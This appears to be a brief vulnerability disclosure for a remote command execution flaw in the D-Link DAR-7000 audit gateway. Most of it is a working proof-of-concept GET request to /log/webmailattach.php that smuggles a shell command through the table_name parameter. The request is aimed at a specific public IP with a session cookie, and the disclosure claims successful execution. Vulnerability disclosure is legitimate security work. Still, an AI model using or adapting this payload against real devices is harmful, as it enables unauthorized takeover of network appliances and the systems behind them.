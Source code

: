The D-LINK DAR-7000 series online behavior audit gateway has a RCE vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/log/webmailattach.php
poc：
```
GET /log/webmailattach.php?attach1=&attach2=(null)&table_name=`sleep${IFS}10`&mail_file_path=1 HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=16b7d22c9d0e23596f887c0d3f7e7920
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 219.142.42.9
Te: trailers
Connection: close

```

Successfully executed command
<img width="683" alt="image" src="https://github.com/ggg48966/cve/assets/51871401/ee223f68-1e94-483c-af38-4781276626d5">
